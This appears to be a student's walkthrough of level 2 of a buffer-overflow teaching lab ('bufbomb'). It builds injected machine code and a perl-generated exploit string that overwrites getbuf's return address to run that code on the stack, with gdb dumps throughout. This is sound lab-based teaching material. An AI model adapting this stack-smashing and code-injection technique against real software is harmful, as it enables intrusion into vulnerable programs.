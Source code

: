 Level 2
=======

Goal = inject machine instructions onto the stack, have those instructions execute and then redirect function getbuf() to function bang()

To find the address of function ```bang()``` type:
```unix> objdump -d bufbomb | less```

and use ```f``` to go forward and ```b``` to go backwards until you find bang():

```
08049012 <bang>:
 8049012:       55                      push   %ebp
 8049013:       89 e5                   mov    %esp,%ebp
 8049015:       83 ec 18                sub    $0x18,%esp
 8049018:       a1 ec c1 04 08          mov    0x804c1ec,%eax <=== 1)
 804901d:       3b 05 e4 c1 04 08       cmp    0x804c1e4,%eax <=== 2)
 8049023:       75 1e                   jne    8049043 <bang+0x31>
 8049025:       89 44 24 04             mov    %eax,0x4(%esp)
 8049029:       c7 04 24 58 a1 04 08    movl   $0x804a158,(%esp)
 8049030:       e8 ab f8 ff ff          call   80488e0 <printf@plt>
 8049035:       c7 04 24 02 00 00 00    movl   $0x2,(%esp)
 804903c:       e8 93 00 00 00          call   80490d4 <validate>
 8049041:       eb 10                   jmp    8049053 <bang+0x41>
 8049043:       89 44 24 04             mov    %eax,0x4(%esp)
 8049047:       c7 04 24 69 9f 04 08    movl   $0x8049f69,(%esp)
 804904e:       e8 8d f8 ff ff          call   80488e0 <printf@plt>
 8049053:       c7 04 24 00 00 00 00    movl   $0x0,(%esp)
 804905a:       e8 31 f9 ff ff          call   8048990 <exit@plt>

 ```
<b>write down the address of bang(). Mine is 08049012</b>
Now type:

```
unix> perl -e 'print "AA "x44, "12 90 04 08 " ' > hexlevel2
unix> ./hex2raw < hexlevel2 > raw
unix> gdb bufbomb
(gdb) break getbuf
(gdb) run -u quinnliu < raw
```

Now use the gdb examine command ```x``` to locate the address and the value held for the variable ```global_value``` by typing:

```
(gdb) x/x &global_value
```

Gives you:

```
(gdb) x/x &global_value
0x804c1ec <global_value>:       0x00000000
```

Now break bang() and show disassembly:
```
(gdb) break bang
(gdb) cont
(gdb) disas
```

Gives you:
```
(gdb) disas
Dump of assembler code for function bang:
   0x08049012 <+0>:     push   %ebp
   0x08049013 <+1>:     mov    %esp,%ebp
   0x08049015 <+3>:     sub    $0x18,%esp
=> 0x08049018 <+6>:     mov    0x804c1ec,%eax
   0x0804901d <+11>:    cmp    0x804c1e4,%eax
   0x08049023 <+17>:    jne    0x8049043 <bang+49>
   0x08049025 <+19>:    mov    %eax,0x4(%esp)
   0x08049029 <+23>:    movl   $0x804a158,(%esp)
   0x08049030 <+30>:    call   0x80488e0 <printf@plt>
   0x08049035 <+35>:    movl   $0x2,(%esp)
   0x0804903c <+42>:    call   0x80490d4 <validate>
   0x08049041 <+47>:    jmp    0x8049053 <bang+65>
   0x08049043 <+49>:    mov    %eax,0x4(%esp)
   0x08049047 <+53>:    movl   $0x8049f69,(%esp)
   0x0804904e <+60>:    call   0x80488e0 <printf@plt>
   0x08049053 <+65>:    movl   $0x0,(%esp)
   0x0804905a <+72>:    call   0x8048990 <exit@plt>
End of assembler dump.
```
At bang+6 a mov instruction stores the value held at 0x804c1ec into %eax. This is then compared to the value at address 0x804c1e4 which is the location of the cookie!

More specific goal = 1) replace the value at 0x804c1ec with my cookie as the little endian id. 2) push the return address to bang() onto the stack 3) return

Since we now know the address of the global variable cookie we can create an assembly instruction to mov my cookie value into the location of global_value. 

This can be done by writing the assembly instructions into a .s file, compiling to a binary .o file. Disassemblying the binary file to get the hex that will be used for the exploit string.

From level 1 calculations get your little endian id. 
              My id: 0x 2d 8c c7 0c <=== USE THIS ONE ON FIRST TRY
My little endian id: 0x 0c c7 8c 2d <=== USE THIS ON SECOND TRY

<b>NOTE try starting here again with little endian id if regular id doesn't work</b>

First create the file assemblylevel2.s with the following contents:
```
movl $0x2d8cc70c, 0x0804c1ec 
pushl $0x08049012            
ret                         
```

then type:
```
unix> gcc -m32 -c assemblylevel2.s
unix> objdump -d assemblylevel2.o > assemblylevel2.d
unix> cat assemblylevel2.d
```

Gives you:
```
assemblylevel2.o:     file format elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:   c7 05 ec c1 04 08 0c    movl   $0x2d8cc70c,0x804c1ec
   7:   c7 8c 2d
   a:   68 12 90 04 08          push   $0x8049012
   f:   c3                      ret
```

Now that I have the hex representation of the assembly to manipulate the bufbomb binary I can put this into the buffer overflow so that it is pushed onto the stack and is executed.

But before I correctly push instructions onto the stack I first have to tell the binary bufbomb where to look for my new instructions. 

Let's first just add the new assembly instructions to see where they are on the stack by typing:
```
perl -e 'print "61 "x32, "BB "x4, "CC "x4, "DD "x4, "EE "x4, "c7 05 ec c1 04 08 0c c7 8c 2d 68 12 90 04 08 c3" ' > hexlevel2_2
```

Now create the corresponding raw file and use it as the new input for the bufbomb:
```
unix> ./hex2raw < hexlevel2_2 > raw
unix> gdb bufbomb
(gdb) break *getbuf+17
(gdb) run -u quinnliu < raw
(gdb) i r
```

Gives you:
```
(gdb) i r
eax            0x55683328       1432892200
ecx            0xa      10
edx            0xb53334 11875124
ebx            0x0      0
esp            0x55683318       0x55683318
ebp            0x55683350       0x55683350
esi            0x55686018       1432903704
edi            0xc60    3168
eip            0x8048c15        0x8048c15 <getbuf+17>
eflags         0x212    [ AF IF ]
cs             0x23     35
ss             0x2b     43
ds             0x2b     43
es             0x2b     43
fs             0x0      0
gs             0x63     99

```

Now let's take a look inside $esp with:
```x/20x $esp```

Gives you 20 words to examine from $esp:
```
(gdb) x/20x $esp
0x55683318 <_reserved+1037080>: 0x55683328      0x009f4b36      0x00b5232c      0x55683328
0x55683328 <_reserved+1037096>: 0x61616161      0x61616161      0x61616161      0x61616161
0x55683338 <_reserved+1037112>: 0x61616161      0x61616161      0x61616161      0x61616161
0x55683348 <_reserved+1037128>: 0xbbbbbbbb      0xcccccccc      0xdddddddd      0xeeeeeeee
0x55683358 <_reserved+1037144>: 0xc1ec05c7      0xc70c0804      0x12682d8c      0xc3080490
```

The address in %ebp is at 0x55683350 which means it is overwritten by 0xdddddddd. The return address of %ebp is also overwritten by 0xeeeeeeee. We can also see our assembly instructions are now on the stack.

In order for the exploit to work, the buffer overflow will have to push the return address of the beginning of the exploit. Looking at the stack shows where the beginning of the exploit starts (0xeeeeeeee). So just replace 0xeeeeeeee with the little endian hex representation of the address where we begin our string exploit at 0x55683358.

0x 55 68 33 58 # is the original order
0x 58 33 68 55 # is the little endian order

Create the new input file by typing:
```
perl -e 'print "61 "x32, "BB "x4, "CC "x4, "DD "x4, "58 33 68 55 ", "c7 05 ec c1 04 08 0c c7 8c 2d 68 12 90 04 08 c3" ' > hexlevel2_3
```

Now create the corresponding raw file and use it as the new input for the bufbomb:
```
unix> ./hex2raw < hexlevel2_3 > raw
unix> gdb bufbomb
(gdb) break *getbuf+17
(gdb) run -u quinnliu < raw
(gdb) x/20x $esp
```

Gives you:
```
(gdb) x/20x $esp
0x55683318 <_reserved+1037080>: 0x55683328      0x0098db36      0x00aeb32c      0x55683328
0x55683328 <_reserved+1037096>: 0x61616161      0x61616161      0x61616161      0x61616161
0x55683338 <_reserved+1037112>: 0x61616161      0x61616161      0x61616161      0x61616161
0x55683348 <_reserved+1037128>: 0xbbbbbbbb      0xcccccccc      0xdddddddd      0x55683358
0x55683358 <_reserved+1037144>: 0xc1ec05c7      0x8c2d0804      0x12680cc7      0xc3080490
```

Then type ```cont```

Gives you:
```
Userid: quinnliu
Cookie: 0x2d8cc70c
Type string:Bang!: You set global_value to 0x2d8cc70c
VALID
NICE JOB!

Program exited normally.
```



